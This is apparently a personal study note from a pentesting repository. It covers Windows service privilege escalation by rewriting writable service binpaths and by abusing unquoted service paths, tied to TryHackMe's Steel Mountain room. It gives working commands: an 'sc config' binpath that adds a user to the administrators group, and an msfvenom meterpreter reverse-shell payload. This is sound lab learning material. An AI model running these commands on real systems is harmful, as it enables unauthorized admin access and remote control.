




# Escalation Path: Service Permissions (Paths)

### Escalation via Binary Paths

Find writable binpaths with PowerUp `Invoke-AllChecks` or using Sysinternals accesschk64.exe

`accesschk64.exe -wuvc Everyone *`

- `-w` Show write access only
- `-u` Suppress errors
- `-v` Verbose
- `-c` Display the service name
 
**PowerUp**  

**accesschk64**  
  

Run accesschk64.exe against any discovered services for more detail

`accesschk64.exe -wuvc servicename`

We can change the binpath with `sc config` to add a user to the Adminstrators localgroup then start the 
service. As this service runs as LocalSystem our user will be added to the group

`sc config daclsvc binpath= "net localgroup administrators user /add"`

`sc start daclsvc`

Starting the service gives an error but the user is added to the Administrators group

### Escalation via Unquoted Service Paths

If a service path is unquoted and contains spaces a malicious executable can be created to take advantage of 
how Windows processes the path.

For example, when looking for an exe at C:\Program Files\My Program\myprogram.exe it will check 
C:\Program.exe, C:\Program Files.exe, C:\Program Files\My.exe, C:\Program Files\My Program.exe, 
C:\Program Files\myprogram.exe

We can generate a malicious service executable with msfvenom and abuse the unquoted service path for 
unquotedsvc, C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 -f exe-service -o common.exe`

Upload the malicious executable to the target and place it in C:\Program Files\Unquoted Path Service

When we start the service, the meterpreter reverse shell will execute

### Challenge Overview

THM Steel Mountain - https://tryhackme.com/room/steelmountain
Full write up here - https://github.com/lukepatterson31/thm/blob/main/write-ups/steel-mountain/steel-mountain.md

Initial access with CVE-2014-6287

Add Invoke-AllChecks at the bottom of the PowerUp.ps1 file to be able to execute it directly in case of a 
frozen shell

`powershell -ep bypass PowerUp.ps1`

Alternatively, migrate to a 64bit process like explorer.exe, load the powershell module and import PowerUp.ps1
and run Invoke-AllChecks

Privilege escalation through unquoted service path
